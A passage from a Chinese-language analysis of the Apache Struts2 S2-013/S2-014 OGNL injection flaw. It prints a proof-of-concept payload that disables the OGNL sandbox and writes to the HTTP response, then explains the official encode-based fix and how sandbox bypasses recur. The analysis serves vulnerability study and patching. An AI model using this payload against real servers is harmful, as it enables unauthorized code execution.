

&emsp;&emsp;&emsp;&emsp;11.最终执行代码还是通过stack.findValue(var, asType)执行的



## 漏洞修复

> 由于POC是这样的

```java
%{(#_memberAccess['allowStaticMethodAccess']=true)(#context['xwork.MethodAccessor.denyMethodExecution']=false)(#writer=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),#writer.println('hacked'),#writer.close())}
```

>所以对于S2-013,官方就限制了%{(#exp)}格式的OGNL执行,但是没想到还有%{exp}形式的漏洞,从而导致了S2-014的产生.

> 最终修复方案是将之前的translateAndEncode方法换成了encode方法,只支持简单的url解码

```java
public String encode(String input) {
        try {
            return URLEncoder.encode(input, this.encoding);
        } catch (UnsupportedEncodingException var3) {
            if (LOG.isWarnEnabled()) {
                LOG.warn("Could not encode URL parameter '#0', returning value un-encoded", new String[]{input});
            }

            return input;
        }
    }
```


## 总结

> 自从S2-003漏洞补丁中的安全配置(禁止静态方法allowStaticMethodAcces、MethodAccessor.denyMethodExecution调用和类方法执行等)被绕过再次导致了S2-005漏洞后.之后漏洞都需要利用OGNL先把沙盒关闭掉,xwork.MethodAccessor.denyMethodExecution设置为false,allowStaticMethodAccess设置为true,然后再执行payload.

## 参考

> https://github.com/vulhub/vulhub/blob/master/struts2/s2-013/README.zh-cn.md

> https://xz.aliyun.com/t/2694

> https://cwiki.apache.org/confluence/display/WW/S2-013

